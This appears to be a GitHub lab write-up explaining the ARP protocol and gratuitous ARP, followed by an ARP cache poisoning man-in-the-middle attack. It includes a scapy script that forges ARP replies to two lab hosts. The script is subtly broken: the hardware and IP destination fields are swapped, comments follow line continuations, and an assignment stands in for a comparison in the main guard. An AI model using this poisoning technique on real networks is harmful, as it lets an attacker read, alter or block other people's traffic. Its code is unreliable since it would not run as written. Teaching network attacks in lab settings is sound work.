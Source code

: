# ARP

ARP is a layer 2 Protocl that bridges between the layer 2 (Ethernet) and layer 3 (IP) addressing schemes. Since there is no direct forula used for "translation" between MAC and IP addresses ARP is used to fill that gap.

To route packets through a network, both an IP address and a MAC address are needed, an IP address of the final destination of the packet and the MAC address of the next hop in the route to that final destination dictated by the IP address. When one of these factors are unknown ARp is used to solve for it.

The way it works is by sending a request to the entire network in a broadcast asking who the holder of the IP/MAC address is, so that they can provide the missing address. To further understand let's imagine a scenario:

> An endpoint doesn't know the MAC address of their default gateway to route the message to the internet. That endpoint will send an ARP request to the LAN asking for the MAC of the default gateway.

The protocol's packet format is as follows:

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Hardware Type                 | Protocol Type                 |
+---------------+---------------+-------------------------------+
| Hw Addr Len   | Pr Addr Len   | Opcode                        |
+---------------+---------------+-------------------------------+
| Sender Hardware Address (size is written in Hw Addr Len)      |
|                              +--------------------------------|
|______________________________|                                |
| Sender Protocol Address (size is written in Pr Addr Len)      |
+---------------------------------------------------------------+
| Target Hardware Address                                       |
|                              +--------------------------------|
|______________________________|                                |
| Target Protocol Address                                       |
+---------------------------------------------------------------+
```

The `Hardware Type` field is for different types of Layer 2 address formats, together with the `Hardware Address Length` it is used to decide the address in the Sender & Target Hardware address. Same goes for the `Protocol Type` and `Protocol Address Length`.

An Ethernet (Hardware) & IP (Protocol) request can be summed up this way: "Who has [IP/MAC Address]? I am [My IP Address] [My MAC Address]." (In broadcast)
And a reply will be: "I am [IP/MAC Address], my MAC/IP Address is [Address]."

## Gratutious ARP Reply

A gratutious arp is an arp reply that was not prompted by any request, It is usually sent when a machine updates their IP to MAC mapping and wants other machine to update it as well, Or when a new machine joins the network. It may use a gratutious ARP reply to annouce it's existence. A gratutious arp will be sent in broadcast, their Send L2 and L3 address wil use to update the network machine's mac tables, the target L3 and L2 are irrelevant.

There is another use case for the gratutious ARP reply, and that is when **two machines** (Like routers) **use a shared IP** but own **different MAC addresses** Or when they **share both IP and MAC addresses**.

> In the first case (Two routers share an IP address), when one router fails the other router will send a gratutious ARP to let all ther other machines on the network know that the reduntant IP should be mapped to ther other router's MAC address.

> In the second case (Two routers share IP and MAC addresses), when one router fails the other will send a gratutious arp reply to let the switch know to remap the MAC and IP to the (then) inactive port, where the functioning router is connetced. The machines on the network do not update their MAC tables.

# Vulnerability

There is a problem with this system however, ARP responses may be accepted by machines without them ever sending a request. And that may lead to a malicious change in the victim's ARP table. One that let's the attacker become a middlemen! An attacker can then diguise themselves as another machine, and actch all the network directed to that machine. Once they have that network they can alter it, block it or simply just read it.

How I did it, a very simple script. If you want to palce yourself as a middle man in-between two machine's first you have to be on the first Lan. But that's a given, so next you have to make them both think that the other machine is you. And I accomplished that with this simple python script using scapy:

```
# ArpPoisoningAttack.py
# 06.02.2023
# By Daniel

# Imports
from scapy.all import *

# Constants
OPCODE          = 2                     # Reply code

ATTACKER_MAC    = "00:50:56:9a:c6:e5"   # My MAC Address, not used

VICTIM_ONE_MAC  = "00:50:56:9a:b0:60"   # Victim 1's MAC & IP addresses
VICTIM_ONE_IP   = "192.168.100.2"

VICTIM_TWO_MAC  = "00:50:56:9a:30:8a"   # Victim 2's MAC & IP sddresses
VICTIM_TWO_IP   = "192.168.100.1"


def main():
    malicious_arp1 = Ether(dst=VICTIM_TWO_MAC)/\
                     ARP(\
                        op=OPCODE,\                                 # Opcode automatically fills IP and MAC compatible settings for all other fields.
                        psrc=VICTIM_ONE_IP,\                        # When no hardware source is given, it fills the sender's MAC.
                        hwdst=VICTIM_TWO_IP, pdst=VICTIM_TWO_MAC\
                     )

    malicious_arp2 = Ether(dst=VICTIM_ONE_MAC)/\
                     ARP(\
                        op=OPCODE,\
                        psrc=VICTIM_TWO_IP,\                        # This packer will be sent to victim 1, posing as victim 2 with attacker's mac.
                        hwdst=VICTIM_ONE_MAC, pdst=VICTIM_ONE_IP\   # The above packet will be sent to victim 2, posing as victim 1,
                     )
    
    sendp(malicious_arp1)
    sendp(malicious_arp2)                                            # :) You just got poisoned


if (__name__ = "__main__"):
    main()
```

![The packets as seen in wireshark](/Pictures/ARP_Poisoning/Wireshark_View.PNG)

The above script sends a packet to each of the machines posing as the other machine. We can then see the effects on both machine's ARP Tables:

![Machine1, IP: 192.168.100.1](/Pictures/ARP_Poisoning/Victim_1_Poisoned_ARP_Table.PNG)

![Machine2, IP: 192.168.100.2](/Pictures/ARP_Poisoning/Victim_2_Poisoned_ARP_Table.PNG)
